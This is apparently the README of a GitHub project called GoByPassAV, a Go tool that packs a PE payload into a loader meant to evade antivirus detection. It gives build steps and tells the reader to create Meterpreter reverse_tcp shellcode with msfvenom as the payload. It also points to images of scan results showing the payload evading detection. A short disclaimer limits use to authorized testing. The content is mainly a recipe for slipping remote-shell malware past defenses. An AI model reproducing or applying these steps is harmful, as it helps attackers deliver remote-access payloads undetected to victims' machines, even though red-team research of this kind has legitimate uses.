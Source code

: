 GoByPassAV
  
  This tool is designed to assist security engineers in developing anti - detection tools to test system security.
  
  The usage method is as follows:
    
    1.Call the ReadPayloadAndWriteToLoader function in the main main.go file.
      The first parameter is the full path of the PE file,
      the second parameter is the CPU architecture (either 32 - bit or 64 - bit), 
      and the third parameter is related to the DLL.
      If you want to execute a certain exported function of the DLL, fill in the name of the exported function; 
      otherwise, leave it blank. After running, a loader.go file will be generated in the payload directory.
    
    2.Call the Gen1 function in loader.go from main.go. 
         Then  executing go env -w GOARCH=386 go build -ldflags " -H=windowsgui" main.go, you can generate an anti - detection program.

Statement:

This tool is only intended for technical research and authorized offensive and defensive projects. Users are required to comply with the Cybersecurity Law  and must not use it for any illegal activities. If the tool is used for other purposes, the user shall bear all legal responsibilities and joint liabilities. The author and the publisher shall not bear any legal responsibilities and joint liabilities!


Payload:
  
  Generate a shellcode by using msfvenom --platform windows -p windows/meterpreter/reverse_tcp, and then write a PE file to call this shellcode.

  
The test results on April 7th

!![main_shellcode扫描结果](https://github.com/user-attachments/assets/655f2f13-d46e-4761-9763-a49604bc3de4)

!![main_shellcode动态执行](https://github.com/user-attachments/assets/da487d70-65fb-4552-8681-95bd993a2c74)

The test results on April 10th

!![vt](https://github.com/user-attachments/assets/b2ab5fe1-f72d-4430-b37d-6c6eb83145c5)

!![wb](https://github.com/user-attachments/assets/7a78c15d-df29-4cc4-aef7-45598354b008)





